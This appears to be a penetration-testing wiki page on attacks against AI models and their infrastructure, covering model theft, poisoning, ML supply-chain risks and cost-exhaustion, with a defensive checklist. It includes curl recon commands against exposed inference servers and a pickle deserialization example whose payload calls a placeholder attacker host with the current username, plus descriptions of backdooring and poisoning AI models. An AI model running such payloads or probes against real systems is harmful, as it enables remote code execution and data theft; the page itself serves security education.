

---
tags:
  - AI
---

# :material-chip: Model & Infra Attacks

<span class="pill pill-info">LLM03/04/10</span> <span class="pill pill-medium">ML supply chain</span>

Below the prompt layer sits real infrastructure: model weights, training
pipelines, vector stores, and a package ecosystem full of arbitrary-code
footguns. This is where AI security meets classic [supply-chain](../cloud/cicd.md)
and infra attacks.

!!! abstract "TL;DR"
    Steal the model (extraction), poison it (training/backdoor), or pop the box
    that serves it (pickle deserialization, exposed inference servers, model hubs).

## :material-content-copy: Model extraction & theft

- **Functional extraction** — query the target a lot and train a clone on the
  input/output pairs; steal capability without the weights.
- **Prompt/config theft** — the system prompt + tools *are* the product for many
  wrapper apps → [Post-Exploitation](post-exploitation.md).
- **Weight exfil** — exposed `/models`, unauthenticated inference endpoints, world-
  readable S3 buckets of `.safetensors`/`.gguf`, or a popped training box.

```bash
# Find exposed inference servers (authorized recon)
# Ollama (11434), vLLM/OpenAI-compatible (8000), Triton (8000/8001), TGI (80/8080)
curl -s http://$TARGET:11434/api/tags            # Ollama: lists local models
curl -s http://$TARGET:8000/v1/models            # OpenAI-compatible server
curl -s http://$TARGET:8080/v1/models
```

!!! bug "Exposed Ollama / vLLM = free compute + model theft"
    Thousands of Ollama and vLLM servers sit on the internet with no auth. They
    leak the model list, allow arbitrary inference (cost/abuse), and sometimes
    pull-and-run arbitrary models. Treat like an open [Redis](../network/ports.md).

## :material-biohazard: Membership inference & privacy

- **Membership inference** — determine whether a specific record was in the
  training set (loss/confidence gap on seen vs unseen data). Privacy impact.
- **Training-data extraction** — pull memorized secrets/PII with known-prefix or
  divergence attacks ("repeat 'poem' forever" style regurgitation).
- **Model inversion** — reconstruct representative inputs from model behaviour.

## :material-flask-round-bottom: Data & model poisoning (LLM04)

- **Training-data poisoning** — inject malicious samples into a dataset (scraped
  web, user feedback/RLHF, open datasets) to skew or backdoor behaviour.
- **Backdoors / trojans** — a trigger phrase flips the model to attacker-chosen
  output while behaving normally otherwise. Survives fine-tuning.
- **Feedback-loop poisoning** — abuse thumbs-up/down or auto-retraining to nudge a
  production model over time.



## :material-package-variant-closed: ML supply chain (LLM03)

The highest-ROI infra attack: the ecosystem runs arbitrary code by design.

- **Pickle deserialization** — `.pkl`, `.pt`, `.bin`, and legacy `.ckpt` can
  execute code on load. A malicious model file = RCE on the loader.
- **Malicious models on hubs** — trojaned models on Hugging Face / model zoos;
  typosquatted repo names; poisoned `from_pretrained()` targets.
- **Dependency risk** — `transformers`, `torch`, custom `pipeline` code with
  `trust_remote_code=True` runs the repo's Python on your box.
- **Notebook / Colab** — shared notebooks that `pip install` typosquats or fetch
  weights over HTTP.

```python
# Why loading an untrusted model can be RCE (pickle __reduce__)
import pickle, os
class Evil:
    def __reduce__(self):
        return (os.system, ("id; curl https://ATTACKER/$(whoami)",))
# pickle.load() on a crafted file runs this. Prefer safetensors.
```

!!! loot "Scan models before you load them"
    Prefer `safetensors` (no code execution). For anything else, scan with
    [picklescan](https://github.com/mmaitre314/picklescan) or
    [modelscan](https://github.com/protectai/modelscan), and never set
    `trust_remote_code=True` on an untrusted repo.

## :material-speedometer: Unbounded consumption (LLM10)

- **Denial-of-wallet** — drive up token/inference cost with expensive prompts,
  huge context, or loops in an agent. Financial DoS.
- **Resource exhaustion** — "sponge" inputs that maximize compute; recursive agent
  self-calls; unbounded tool loops.
- **Model DoS** — pathological inputs that spike latency/memory on the server.

## :material-clipboard-check: Infra checklist

- [ ] Inference endpoints authenticated + rate-limited (Ollama/vLLM/Triton/TGI)?
- [ ] Model files `safetensors`, or scanned before load?
- [ ] `trust_remote_code` disabled for untrusted sources?
- [ ] Training/fine-tune data provenance verified; feedback loop abuse-resistant?
- [ ] Vector store authenticated + tenant-isolated?
- [ ] Per-user/token cost + concurrency caps (denial-of-wallet)?

## :material-link-variant: Related

- Supply-chain analogues: [CI/CD & Supply Chain](../cloud/cicd.md), [Container Escape](../cloud/containers.md).
- Exposed servers → [Ports & Services](../network/ports.md); popped box → [Linux Privesc](../privesc/linux.md).
- Reference: [OWASP LLM03 Supply Chain](https://genai.owasp.org/llmrisk/llm03-supply-chain/), [LLM04 Data & Model Poisoning](https://genai.owasp.org/llmrisk/llm04-data-and-model-poisoning/), [Protect AI modelscan](https://github.com/protectai/modelscan).
